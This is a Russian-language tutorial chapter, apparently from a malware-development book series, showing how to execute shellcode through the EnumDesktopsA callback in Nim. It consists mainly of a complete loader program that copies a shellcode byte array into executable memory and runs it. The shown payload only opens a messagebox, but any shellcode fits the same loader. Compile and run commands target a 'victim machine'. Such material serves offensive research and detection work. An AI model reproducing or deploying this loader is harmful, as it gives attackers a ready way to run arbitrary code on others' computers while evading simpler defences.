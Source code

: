 \newpage
\subsection{50. трюк разработки вредоносного ПО. Запуск полезной нагрузки через EnumDesktopsA. Простой пример на Nim.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![вредоносное ПО](./images/123/2024-06-12_14-34.png){width="80%"}      

Этот пост просто проверяет корректность запуска полезной нагрузки через `EnumDesktopsA` в языке программирования Nim.    

Функция `EnumDesktopsA` передаёт имя каждого рабочего стола в функцию обратного вызова, определённую приложением:

```cpp
BOOL EnumDesktopsA(
  HWINSTA          hwinsta,
  DESKTOPENUMPROCA lpEnumFunc,
  LPARAM           lParam
);
```

### практический пример

Просто обновляем наш C-код из одного из предыдущих [постов](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) с использованием языка Nim:    

```python
import system
import winim

when isMainModule:
  let payload: seq[byte] = @[
    byte 0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0, 0x0, 0x41, 0x51, 0x41,
    0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52,
    0x18, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
    0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2, 0x2c, 0x20, 0x41, 0xc1,
    0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e,
    0x8b, 0x42, 0x3c, 0x48, 0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
    0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44, 0x8b, 0x40, 0x20, 0x49,
    0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d,
    0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
    0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6, 0x58, 0x3e, 0x44, 0x8b,
    0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41, 0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c,
    0x49, 0x1, 0xd0, 0x3e, 0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
    0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0,
    0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12, 0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7,
    0xc1, 0x0, 0x0, 0x0, 0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d, 0x85,
    0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83, 0x56, 0x7, 0xff, 0xd5, 0x48,
    0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d,
    0x65, 0x6f, 0x77, 0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
  ]

  let mem = VirtualAlloc(
    NULL, cast[SIZE_T](payload.len), 
    MEM_COMMIT, PAGE_EXECUTE_READWRITE
    )
  RtlMoveMemory(
    mem, 
    unsafeAddr payload[0], 
    cast[SIZE_T](payload.len)
    )
  EnumDesktopsA(
    GetProcessWindowStation(), 
    cast[DESKTOPENUMPROCA](mem), 
    cast[LPARAM](NULL)
    )
```

Как обычно, для простоты я использовал полезную нагрузку с messagebox `meow-meow`:   

```python
let payload: seq[byte] = @[
    byte 0xfc, 0x48, 0x81, 0xe4, 0xf0, 0xff, 0xff, 0xff, 0xe8, 0xd0, 0x0, 0x0, 0x0, 0x41, 0x51, 0x41,
    0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x3e, 0x48, 0x8b, 0x52,
    0x18, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
    0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2, 0x2c, 0x20, 0x41, 0xc1,
    0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e,
    0x8b, 0x42, 0x3c, 0x48, 0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
    0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44, 0x8b, 0x40, 0x20, 0x49,
    0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e, 0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d,
    0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
    0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6, 0x58, 0x3e, 0x44, 0x8b,
    0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41, 0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c,
    0x49, 0x1, 0xd0, 0x3e, 0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
    0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0,
    0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12, 0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7,
    0xc1, 0x0, 0x0, 0x0, 0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d, 0x85,
    0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83, 0x56, 0x7, 0xff, 0xd5, 0x48,
    0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2, 0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d,
    0x65, 0x6f, 0x77, 0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
  ]
```

### демонстрация

Давайте проверим это в действии. Компилируем:    

```bash
nim c -d:mingw --cpu:amd64 hack.nim
```

![вредоносное ПО](./images/123/2024-06-12_14-42.png){width="80%"}         

Затем просто переносим на машину жертвы (в моём случае Windows 11) и запускаем:    

```powershell
.\hack.exe
```

![вредоносное ПО](./images/123/2024-06-12_14-35.png){width="80%"}     

Как можно заметить, всё работает идеально и для языка Nim =^..^=!     

[Malware development trick 20: запуск шеллкода через EnumDesktopsA, пример на C](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html)      
[исходный код на GitHub](https://github.com/cocomelonc/meow/tree/master/2024-06-12-malware-trick-39)    
